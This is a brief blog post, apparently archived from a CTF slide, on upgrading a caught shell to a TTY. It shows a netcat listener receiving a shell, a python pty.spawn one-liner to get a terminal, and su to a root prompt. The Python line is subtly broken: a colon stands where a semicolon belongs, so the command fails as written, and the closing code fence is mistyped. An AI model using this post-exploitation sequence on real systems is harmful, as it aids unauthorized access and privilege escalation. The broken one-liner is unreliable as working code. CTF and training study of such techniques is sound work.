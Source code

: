 ```yaml
---
published: true
title: 'Using Python to get a TTY'
permalink: /2016/Python-TTY
author: bradford
layout: post
categories:
  - Technology
  - Tutorials
tags:
  - Python
  - TTY
comments: true
---
```

_I grabbed this snippet from a slide posted at a CTF I attended earlier this year. It was a pretty cool little hack I decided to archive it here in case I ever need it again. Enjoy!_

```bash
$ nc -v -n -l -p 1234
listening on [any] 1234
sh: no job control in this shell
sh-3.2$ su
su must be run from a terminal
sh-3.2$ python -c 'import pty: pty.spawn("/bin/sh")'
sh-3.2$ su
su -
Password
localhost ~ #
'''
